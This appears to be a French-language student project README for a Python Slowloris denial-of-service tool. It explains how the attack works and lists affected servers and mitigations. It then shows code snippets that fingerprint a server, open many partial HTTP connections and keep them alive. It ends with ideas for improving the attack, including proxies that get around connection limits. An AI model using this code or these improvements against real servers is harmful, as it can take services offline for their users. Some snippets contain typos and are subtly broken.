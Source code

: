 # Python pour la securite
  - ### [1. Introduction](#1-Introduction)
  - ### [2. Fonctionnement](#2-Fonctionnement)
  - ### [3. Difficultees rencontrees](#3-Difficultees-rencontrees)
  - ### [4. Ameliorations](#4-Ameliorations)

## 1. Introduction

 L'attaque slow loris permet de faire un ddos sur un serveur en se servant que d'une seule machine. 
 Slowloris essaie de garder le maximum de connexions ouvertes avec le webserver cible et essaie de les garder ouvertes aussi longtemps que possible. 
 Dès que le slowloris a ouvert une connection il va garder la garder ouverte en envoyant des requêtes incomplètes qu'il va compléter lentement au fur et à mesure mais ne les finira jamais. 
 Les serveurs affectés verront leur nombre maximum de connections atteint et peuvent refuser les nouvelles connections d'utilisateurs.
Les serveurs majoritairement touchés par l'attaque slowloris sont:
- Apache 1.x and 2.x
- dhttpd
- Flask

Il existe des modules pour apache qui permetent de réduire la chance d'une attaque slowloris tel que: 
- mod_limitipconn
- mod_qos, mod_evasive
- mod security
- mod_noloris
- mod_antiloris

Il existe d'autres méthodes pour se protéger tel qu'installer un:
- reverse proxy
- firewall
- load balancer
- content switches

Si aucune de ces solutions n'est envisageable il est toujours possible de placer son webserver derrière un nginx ou lighthttpd qui ne sont pas affectés par cette attaque.
## 2. Fonctionnement
Afin de faire fonctionner ce programme, il est necessaire d'installer certaines dependances. Les commandes a executer pour avoir un environnement d'execution sont les suivantes :
 * `virtualenv env`
 * `source env/bin/activate`
 * `pip install -r requirements.txt`

 Dans un premier temps, il est necessaire de recuperer le type de serveur que l'on souhaite attaquer : 
 * Par exemple, un serveur apache 1.x/2.x permettra une attaque optimal.
 * A contrario, attaquer un WebServeur tournant avec le framework NodeJS a partir de la version 8 est inutile

 Pour recuper le type de serveur, on envoie une requete get : </br>
 * `sock.send("GET / HTTP/1.1\r\n\r\n".encode("ascii"))`</br>

Puis on analyse le retour </br>
*  `HTTP/1.1 400 Bad Request
Date: Wed, 10 Jul 2019 16:18:53 GMT
Server: Apache/2.4.29 (Ubuntu)
Content-Length: 301
Connection: close
Content-Type: text/html; charset=iso-8859-1
`

Pour l'initialisation des sockets on envoie trois requêtes:
```Python
s.send("GET /?{} HTTP/1.1\r\n".format(random.randint(0, 2000).encode("utf-8"))
s.send("User-Agent: {}\r\n".format(ua.USER_AGENT[random.randin(0,29)]).encode("utf-8"))
s.send("{}\r\n".format("Accept-language: en-US,en,q=0.5".encode("utf-8"))
```
Dans l'ordre:
- La première initialise la connection
- La deuxième envoie le user agent utilisé choisi aléatoirement dans la pool des user agents.
- La troisième dit quelles sont les langues acceptées.

-> A l'initialisation le slowloris va essayer d'initier autant de connections que l'on a demandé.

Il va ensuite les garder en vie en les complétant toutes les 15 secondes avec:
```Python
s.send("X-a: {}\r\n".format(random.randint(1, 5000)).encode("utf-8"))
```
Il va ensuite essayer à nouveau d'ouvrir des connections jusqu'à atteindre la limite que l'on a fixé.
 ```Python
 for _ in range(self.target_info.sockets_number - len(self.sockets_list)):
    try:
        s = self.init_socks()
        if s:
            self.sockets_list.append(s)
```
Par la suite le slowloris va calculer la latence en faisant une requête dans un thread à part.

```Python
if not latence.is_alive():
    latence.run()
```





## 3. Difficultees rencontrees
La principale difficultees fut d'ordre materiel, en essayant l'attaque sur un serveur distant, la box internet ma "banni", il etait impossible d'acceder a aucun site web en dehors, impossible d'utiliser un dns.

La seconde difficultee fut de comprendre que les serveur nodes n'etaient pas affectees. Le programme semblait fonctionel mais aucun ralentissement ne fut observé. Ensuite installer un serveur apache est un defi de taille.

Hormis cela, aucune difficultée majeures ne fut rencontrées.


## 4. Ameliorations
Les améliorations possibles sont nombreuses:
- Détection automatique du serveur et optimisation des paramètres.
- Détection automatique du timeout serveur pour les requêtes.
- Détection du nombre de connection maximum du serveur pour pouvoir choisir le niveau de ddos que l'on veut (un peu, beaucoup, moyen)
- Utilisation de proxy pour permettre d'ouvrir un plus grand nombre de connections quand il y a un nombre limité par utilisateur.
